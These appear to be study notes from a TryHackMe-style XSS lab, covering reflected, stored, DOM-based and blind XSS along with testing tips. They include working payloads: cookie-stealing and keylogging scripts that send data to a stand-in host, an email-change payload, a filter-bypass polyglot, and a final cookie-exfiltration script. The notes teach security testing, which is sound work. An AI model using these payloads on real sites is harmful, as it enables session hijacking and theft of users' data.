 Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the **intention** and the **modification**.

The intention is what you wish the JavaScript to actually do, and the modification is the changes to the code we need to make it execute as every scenario is different.

### Session Stealing
The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control.

```html
<script>
    document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}
</script>
```

### Business Logic
This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

Above examples are mere representation of how XSS is done. These don't work in real world.

## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source. The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.

**Potential Impact:**
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

**How to test for Reflected XSS:**
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

## Stored XSS
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

example:
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

**Potential Impact:**
The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

**How to test for Stored XSS:**
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:
- Comments on a blog
- User profile information
- Website Listings
Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

## DOM Based XSS
DOM is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source.

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

example:
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

```html
<iframe src="javascript:alert(`xss`)"> 
```

**Potential Impact:**
Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

**How to test for Dom Based XSS:**
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as **window.location.x** parameters.

## Blind XSS
Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

example:
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

**Potential Impact:**
Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

**How to test for Blind XSS:**
When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

### Polyglots:
An XSS polyglot is a string of text which can **escape attributes, tags and bypass filters all in one**. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

**Ping to attacker's machine**:

```javascript
</textarea>
<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```